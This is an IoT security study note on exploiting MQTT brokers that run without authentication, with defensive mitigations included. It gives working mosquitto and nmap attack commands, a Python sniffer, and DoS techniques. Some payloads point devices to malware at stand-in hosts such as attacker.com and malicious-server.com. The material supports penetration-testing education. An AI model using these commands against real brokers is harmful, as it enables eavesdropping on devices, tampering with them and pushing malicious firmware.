

# MQTT Unauthenticated Broker Exploitation

## 1. Introduction to MQTT

Message Queuing Telemetry Transport (MQTT) is a lightweight, publish-subscribe network protocol that transports messages between devices. The protocol usually runs over TCP/IP; however, any network protocol that provides ordered, lossless, bi-directional connections can support MQTT. It is designed for connections with remote locations where a "small code footprint" is required or the network bandwidth is limited.

In the context of IoT (Internet of Things), MQTT has become the de facto standard for communication between sensors, actuators, and the central server (broker). Unfortunately, due to its lightweight nature and legacy implementations, many MQTT brokers are deployed without authentication or encryption, leaving the entire IoT ecosystem vulnerable to snooping, manipulation, and denial-of-service attacks.

## 2. MQTT Architecture and Components

The MQTT architecture consists of two primary types of entities:
- **MQTT Broker:** The central server that receives all messages from the clients and then routes the messages to the appropriate destination clients.
- **MQTT Clients:** Any device (from a micro controller to a fully-fledged server) that connects to the broker to either publish messages, subscribe to receive messages, or both.

### The Publish-Subscribe Model
In a publish-subscribe system, a device can publish a message on a specific "topic", or it can subscribe to a particular "topic" to receive messages. The broker acts as a post office, taking incoming messages and distributing them to subscribers.

### MQTT Topics
Topics are treated as a hierarchy, using a slash (/) as a separator. For example:
`home/livingroom/temperature`
`home/kitchen/fridge/status`

Clients can subscribe to exact topics or use wildcards:
- `+` (Single level wildcard): Matches any name for a specific topic level. E.g., `home/+/temperature` matches `home/livingroom/temperature` and `home/kitchen/temperature`.
- `#` (Multi-level wildcard): Matches any number of levels. E.g., `home/#` matches everything starting with `home/`.

## 3. ASCII Diagram: MQTT Unauthenticated Attack Flow



## 4. The Vulnerability: Unauthenticated Access

The core issue discussed here is the deployment of MQTT brokers without requiring authentication. In Mosquitto, for example, prior to version 2.0, anonymous access was allowed by default. Even in newer versions, misconfigurations can lead to brokers accepting connections from any client.

When a broker does not require authentication, anyone who can route network traffic to the broker's IP address and port (usually TCP 1883 for unencrypted, 8883 for TLS) can connect, subscribe to all topics, and publish arbitrary messages.

### Impact
1. **Information Disclosure:** Attackers can read sensitive data transmitted by sensors (e.g., GPS coordinates, healthcare telemetry, proprietary industrial data).
2. **Device Manipulation:** Attackers can publish messages to control topics, causing actuators to perform unauthorized actions (e.g., unlocking smart doors, changing thermostat settings, turning off critical machinery).
3. **Denial of Service (DoS):** By flooding the broker with messages, an attacker can crash the broker or saturate the network, disrupting legitimate IoT operations.
4. **Data Corruption:** Injecting false data can lead to incorrect decisions by automated systems or analytics platforms.

## 5. Exploitation Methodology

### Phase 1: Discovery and Reconnaissance

The first step in exploiting an MQTT broker is identifying its existence and accessibility.
- **Port Scanning:** Standard MQTT runs on port 1883. Secure MQTT (over TLS) runs on port 8883. WebSockets for MQTT often run on ports 8080, 9001, or 443.
  ```bash
  nmap -p 1883,8883 -sV --script mqtt-subscribe <target_ip>
  ```
  The Nmap script `mqtt-subscribe` will attempt to connect and subscribe to topics to see if anonymous access is permitted.

- **Shodan / Censys:** Using search queries to find exposed brokers globally.
  `port:1883 "MQTT"`

### Phase 2: Connecting and Subscribing

Once an accessible broker is identified, the attacker uses an MQTT client to connect. Popular tools include `mosquitto_sub`, `mqttx`, or custom Python scripts using the `paho-mqtt` library.

**Subscribing to everything:**
To understand the data flow and identify topics of interest, the attacker subscribes to the `#` wildcard.
```bash
mosquitto_sub -h <target_ip> -p 1883 -t "#" -v
```
The `-v` flag (verbose) ensures that both the topic and the message payload are printed.
If the broker is unauthenticated, the terminal will rapidly fill with messages from all connected devices.

**System Topics:**
MQTT brokers often publish internal status information under the `$SYS/` hierarchy. Subscribing to this can reveal broker version, uptime, load, and connected clients.
```bash
mosquitto_sub -h <target_ip> -p 1883 -t "$SYS/#" -v
```

### Phase 3: Analyzing the Data

With a stream of data flowing in, the attacker analyzes the topic structures and payloads.
Common patterns:
- Topics ending in `/set` or `/cmd` often indicate command topics (e.g., `device/relay/1/set`).
- JSON payloads are prevalent. Analyzing the schema helps in crafting malicious messages.
  Example payload: `{"state": "OFF", "brightness": 0}`

### Phase 4: Message Injection and Manipulation

After identifying the command topics and the required payload format, the attacker can publish messages to manipulate the system.
```bash
mosquitto_pub -h <target_ip> -p 1883 -t "device/relay/1/set" -m '{"state": "ON"}'
```
This command sends a message to turn on a relay. If the IoT backend or the device itself doesn't validate the source of the message (which is typical, as MQTT lacks built-in message origin authentication), the device will execute the command.

### Phase 5: Advanced Attacks

#### Retained Messages
MQTT supports "retained messages". If a message is published with the retain flag set to true, the broker stores the last message for that topic and sends it to any new subscriber.
An attacker can overwrite a legitimate retained message with a malicious one. Every time a device reboots or reconnects, it will receive the attacker's payload.
```bash
mosquitto_pub -h <target_ip> -p 1883 -t "device/config" -m '{"update_url":"http://attacker.com/malware.bin"}' -r
```

#### Will Messages (LWT - Last Will and Testament)
When a client connects, it can define a "Will" message. If the client disconnects unexpectedly, the broker publishes this message. An attacker can connect and immediately forcibly disconnect to trigger spurious Will messages, causing confusion or false alerts in the monitoring system.

#### Denial of Service (DoS)
- **Connection Exhaustion:** Opening thousands of TCP connections to the broker.
- **Message Flooding:** Publishing large volumes of data to force the broker to process and distribute it, overwhelming its CPU, memory, or network bandwidth.
- **Topic Tree Exhaustion:** Creating thousands of unique topics, causing the broker's routing table memory to bloat.

## 6. Defensive Strategies and Mitigation

To secure an MQTT deployment against unauthenticated exploitation:

1. **Enforce Authentication:** Always require a username and password (or client certificates) for connections. In Mosquitto, this means setting `allow_anonymous false` and configuring a password file or integrating with an external authentication provider.
2. **Implement Authorization (ACLs):** Restrict which clients can publish or subscribe to which topics. A sensor should only be able to publish to its specific topic and not subscribe to command topics meant for actuators.
3. **Enable Transport Layer Security (TLS):** Never transmit MQTT credentials or data in plaintext. Use TLS (port 8883) to encrypt communication and use server certificates to prevent Man-in-the-Middle (MitM) attacks.
4. **Network Segmentation:** Do not expose the MQTT broker to the public internet unless absolutely necessary. Place it behind a firewall and use VPNs or API gateways for remote access.
5. **Disable or Restrict Wildcard Subscriptions:** Prevent clients from subscribing to `#` to limit information disclosure in case of a breach.
6. **Monitor $SYS Topics:** Actively monitor broker metrics for anomalous behavior, such as a sudden spike in connections or published messages.

## 7. Penetration Testing Checklist for MQTT

- [ ] Scan target IP ranges for TCP 1883, 8883, 8080, 9001.
- [ ] Attempt unauthenticated connection.
- [ ] Attempt connection with default credentials (admin/admin, root/root, etc.).
- [ ] Subscribe to `#` and capture traffic for 10-15 minutes.
- [ ] Subscribe to `$SYS/#` to gather broker information.
- [ ] Analyze captured payloads for sensitive data (credentials, PII, internal IPs).
- [ ] Identify command topics and test authorization by publishing benign payloads.
- [ ] Test for DoS vulnerabilities (slowloris-style attacks on MQTT, connection flooding).
- [ ] Check if TLS is implemented and configured correctly (valid certificates, strong ciphers).

## 8. Hardware and Firmware Considerations (Extended Context)

When approaching physical IoT devices, MQTT misconfigurations often pair with weak local security.
1. Extracting firmware via UART/JTAG or SPI flash dumping to find hardcoded MQTT credentials if authentication is present but uses static values.
2. Observing how the device handles malformed MQTT messages over serial debugging.
3. Over-the-Air (OTA) update channels usually utilize MQTT for notification. Manipulating the update topic could push malicious firmware.

## 9. Appendix: Deep Inspection Log Dumps
The following illustrates typical artifacts generated during exploitation of MQTT:

```bash
# Simulating a massive topic dump indicating lack of access control
$ mosquitto_sub -h 192.168.1.50 -t "#" -v
telemetry/sensor1 {"temp": 22.4, "hum": 45}
telemetry/sensor2 {"temp": 24.1, "hum": 50}
control/hvac/floor1 {"status": "cooling", "target": 21}
admin/diagnostics {"cpu_load": 1.2, "mem_free": 10245}
security/door1 {"state": "locked"}
```
By analyzing the `security/door1` topic, the attacker learns the exact schema required to manipulate the state. A subsequent `mosquitto_pub` command to `security/door1/set` could force the lock open.

Furthermore, attackers frequently write Python automation to parse these massive dumps:
```python
import paho.mqtt.client as mqtt

def on_message(client, userdata, message):
    print(f"Received message '{message.payload.decode()}' on topic '{message.topic}'")

client = mqtt.Client("Attacker_Sniffer")
client.on_message = on_message
client.connect("192.168.1.50", 1883)
client.subscribe("#")
client.loop_forever()
```

## 10. Extended Payload Manipulation

```json
{
  "device_id": "001",
  "command": "reboot",
  "parameters": {
     "delay": 0,
     "force": true
  }
}
```

```json
{
  "device_id": "002",
  "command": "firmware_update",
  "parameters": {
     "url": "http://malicious-server.com/firmware.bin",
     "signature": "bypass"
  }
}
```

```json
{
  "device_id": "003",
  "command": "set_limits",
  "parameters": {
     "max_temp": 9999,
     "min_temp": -9999
  }
}
```

## Chaining Opportunities
- Can be chained with **[[04 - Weak Default Credentials]]** if authentication is enabled but uses defaults.
- Insights gained from MQTT can be used in **[[12 - CoAP Protocol Attacks]]** if the environment uses multiple IoT protocols.
- Can lead to physical consequences, crossing over into **[[17 - Cyber-Physical Systems Exploitation]]**.

## Related Notes
- [[14 - Shodan for IoT Device Discovery]]
- [[02 - Network Scanning and Enumeration]]
- [[21 - ICS SCADA Architecture Security]]
